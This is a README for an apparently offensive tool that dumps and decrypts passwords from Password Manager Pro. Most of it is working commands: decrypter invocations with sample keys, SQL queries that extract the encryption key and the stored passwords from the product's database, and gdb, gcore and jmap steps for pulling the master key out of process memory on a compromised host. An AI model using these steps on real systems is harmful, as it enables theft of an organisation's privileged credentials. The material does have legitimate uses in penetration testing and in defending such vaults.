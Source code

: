 # PMP-tool

Some tools for decrypting/dumping Password Manager Pro passwords  

Dependencies:
 - python3
 - pycryptodome
 - pgpy (Only if you wish to decrypt database encrypted data)


## Decrypter

### Examples

Decrypt passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= --file example/decrypted_passwords.txt
```

Decrypt database-encrypted passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --file example/passwords.txt --encrypted
```

Decrypt a single database-encrypted password:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --password wwwECQECsR/EjgtjwlTSUQFN8qQRmKRB0manYvU++KDTurezkOX5QwcrZEMdHLdTbAm1M2qHTUmB8LE5MZ5wDxtpzBR73p02ifya3QY5nVL/0y05/CSyEl7E+BoxrUn8+g== --encrypted
```

## Dumper

### Installation

```bash
sudo apt-get -y install libpq-dev
pip3 install -r requirements.txt
```

## PostgreSQL

You can use this commands (or their MySQL equivalent) to gain some info manually

To get encrypted `DB_ENCRYPTION_KEY` (you can than decrypt it with decrypter):

```SQL
select notesdescription from Ptrx_NotesInfo where noteid = 1;
```

To retrieve encrypted passwords (no database decryption):

```SQL
select encode(password, 'base64') from ptrx_passbasedauthen;
```


To retrieve encrypted passwords:

```SQL
select decryptschar(password, <DB_ENCRYPTION_KEY>) from ptrx_passbasedauthen;
```

OR

```SQL
select pgp_sym_decrypt(password, <DB_ENCRYPTION_KEY>, 's2k-mode=1, cipher-algo=aes256') from ptrx_passbasedauthen;
```

## Memory Dump

If you can execute commands on the host, you can read the PMP key from a file `PMP/conf/pmp_key.key`. However, if the file is removed (according to the deploy instructions), you can try dumping it from memory

*0. Get WrapperSimpleApp PID*

```bash
jps | grep WrapperSimpleApp # Or find it yourself
```

*1. JMAP*

If the host have jdk installed you can simply use Jmap

```bash
jmap -dump:file=dump.dump <process-id>
```

Then analyze the dump with any java heap analyzer tool. For example - [Eclipse Memory Analyzer](https://www.eclipse.org/mat/).  
Load the dump into analyzer (`File -> load heap dump`) and follow `java.net.URLClassLoader -> list objects -> with outgoing references -> classes -> elementData -> <Find the one with class com.adventnet.passtrix.ed.PMPEncryptDecryptImpl> -> pmp32BitKey`

*2. GDB*

**Requires root privileges**

```bash
gdb --batch --pid <process-id> -ex "dump memory mem.dump 0xf5580000 0x100000000" && grep -a -m2 -E "[A-Za-z0-9\+/]{43}=" mem.dump
```

*3. GCORE*

**Requires root privileges**  
Works half of the time `-_0_0_-`

```bash
gcore -a <process-id>
grep -a -E "[A-Za-z0-9\+/]{43}=" core.*
```

